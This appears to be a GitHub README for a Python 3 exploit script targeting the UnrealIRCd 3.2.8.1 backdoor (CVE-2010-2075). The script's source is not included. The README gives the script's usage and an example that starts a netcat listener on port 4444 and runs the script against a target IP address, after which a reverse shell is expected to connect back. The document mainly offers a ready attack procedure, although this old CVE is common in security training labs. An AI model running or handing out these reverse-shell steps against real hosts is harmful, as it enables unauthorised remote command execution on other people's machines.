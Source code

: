 # UnrealIRCD-3.2.8.1-Backdoor
UnrealIRCd 3.2.8.1 backdoor command execution exploit in Python 3 (CVE-2010-2075).

# Description
[UnrealIRCd](https://www.unrealircd.org/) version 3.2.8.1 contains a trojan horse which allows remote attackers to execute arbitrary commands ([CVE-2010-2075](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-2075)).

# Usage
```
nc -lp 4444
```

Execute the script, providing the following positional arguments:
```
python3 script.py <target> <tport> <listener> <lport>
```
- `<target>` Target host IP address.
- `<tport>` Target host port number.
- `<listener>` Listening host IP address.
- `<lport>` Listening host port number.

# Example
Setup a Netcat listener on your local machine:
```
nc -lp 4444
```

Run the script against a target machine at `192.168.1.3` TCP port `6697`:
```
python3 script.py 192.168.1.3 6697 192.168.1.2 4444
```

Wait a minute and the Netcat listener should receive a reverse shell.
